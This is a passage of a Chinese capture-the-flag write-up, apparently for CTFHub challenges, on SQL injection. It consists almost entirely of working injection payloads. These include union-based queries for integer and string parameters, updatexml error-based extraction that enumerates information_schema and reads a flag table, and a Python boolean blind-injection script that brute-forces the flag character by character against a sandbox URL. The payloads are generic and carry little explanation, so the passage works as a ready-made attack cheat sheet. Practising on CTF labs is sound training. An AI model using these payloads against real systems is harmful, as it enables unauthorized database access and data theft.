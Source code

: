 挨个试得到flag

### SQL注入

#### 整数型注入

![image-20200906212224767](/image-20200906212224767.png)

```
-1 union select 1,2-- -
-1 union select 1,database()-- -
-1 union select 1,group_concat(schema_name) from information_schema.schemata
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()-- -
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'-- -
-1 union select 1,(select flag from flag)-- -
```

#### 字符型注入

```
-1' union select 1,database()
-1' union select 1,group_concat(schema_name) from information_schema.schemata#
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()-- -
-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'-- -
-1' union select 1,(select flag from flag)-- -
```

#### 报错注入

```
1 and updatexml(1,concat(0x23,database()),1) -- -
1 and updatexml(1,concat(0x23,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) -- -
1 and updatexml(1,concat(0x23,(select group_concat(column_name) from information_schema.columns where table_name='flag')),1) -- -
1 and updatexml(1,concat(0x23,(select flag from flag)),1) -- -
1 and updatexml(1,concat(0x23,(select (right(flag,30)) from flag)),1) -- -
```

#### 布尔盲注

```python
import string
import requests

_str = string.ascii_letters
_str += '0123456789{}'
print(_str)
t_r = ''
url = "http://challenge-92e2f40df1c2ecaf.sandbox.ctfhub.com:10080/?id=1 and (ascii(substr((select(flag)from(flag))from(%d)))=%d)"
for i in range(60):
    print(i)
    for s in _str:
        _url = url%(i,ord(s))
        # print(_url)
        result = requests.get(_url).text
        if 'query_success' in result:
            t_r = t_r + s
            print(t_r)
            break
```
